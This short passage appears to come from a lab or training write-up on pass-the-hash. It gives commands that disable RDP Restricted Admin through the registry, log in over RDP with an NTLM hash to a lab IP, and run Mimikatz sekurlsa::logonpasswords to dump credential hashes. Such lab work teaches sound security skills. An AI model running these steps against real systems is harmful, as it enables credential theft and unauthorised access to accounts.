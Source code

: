 <figure><img src=".gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">**DisableRestrictedAdmin**</mark>

**Connect via RDP and use Mimikatz located in c:\tools to extract the hashes presented in the current session. What is the NTLM/RC4 hash of David's account?**

`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

`xfreerdp /v:10.129.92.104 /u:administrator /pth:30B3783CE2ABF1AF70F77D0660CF3453`

`run mimikatz`

privilege::debug

sekurlsa::logonpasswords full

<figure><img src=".gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>
